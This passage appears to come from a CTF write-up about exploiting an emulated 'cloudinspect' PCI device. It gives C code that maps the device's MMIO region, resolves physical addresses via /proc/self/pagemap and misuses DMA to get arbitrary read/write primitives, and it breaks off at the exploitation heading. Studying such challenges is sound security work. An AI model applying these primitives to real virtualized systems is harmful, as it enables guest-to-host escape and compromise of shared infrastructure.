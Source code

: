 ```c
		iowrite(CLOUDINSPECT_MMIO_OFFSET_DST, offt);
		iowrite(CLOUDINSPECT_MMIO_OFFSET_CNT, 8);
		iowrite(CLOUDINSPECT_MMIO_OFFSET_SRC, dmabuf_phys_addr);
		iowrite(CLOUDINSPECT_MMIO_OFFSET_TRIGGER, 0x300);
		return 0;
}

uint64_t read_offt(uint64_t offt) {
		iowrite(CLOUDINSPECT_MMIO_OFFSET_CMD, CLOUDINSPECT_DMA_PUT_VALUE);
		iowrite(CLOUDINSPECT_MMIO_OFFSET_SRC, offt);
		iowrite(CLOUDINSPECT_MMIO_OFFSET_CNT, 8);
		iowrite(CLOUDINSPECT_MMIO_OFFSET_DST, dmabuf_phys_addr);
		ioread(CLOUDINSPECT_MMIO_OFFSET_TRIGGER);
		return *(uint64_t* )dmabuf;
}

int main() {
		int fd1 = open(PATH, O_RDWR | O_SYNC);
		if (-1 == fd1) {
				fprintf(stderr, "Cannot open %s\n", PATH);
				return -1;
		} // open resource0 to interact with the device
		
		iomem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, fd1, 0); // map resource0
		printf("iomem @ %p\n", iomem);
		
		fd = open("/proc/self/pagemap", O_RDONLY);
		if (fd < 0) {
				perror("open");
				exit(1);
		}

		dmabuf = malloc(0x1000);
		memset(dmabuf, '\x00', sizeof(dmabuf));
		if (MAP_FAILED == iomem) {
				return -1;
		}

		mlock(dmabuf, 0x1000); // trigger PAGE_FAULT to acually map the page
		dmabuf_phys_addr = virt2phys(dmabuf); // grab physical address according to pagemap
		printf("DMA buffer (virt) @ %p\n", dmabuf);
		printf("DMA buffer (phys) @ %p\n", (void*)dmabuf_phys_addr);
}
```

Now we can interact with the device we got two primitive of arbitrary read / write. The `read_offt` and `write_dmabuf` functions permit us to read / write a 8 bytes to an arbitrary offset from the `dmabuf` object address.

## Exploitation
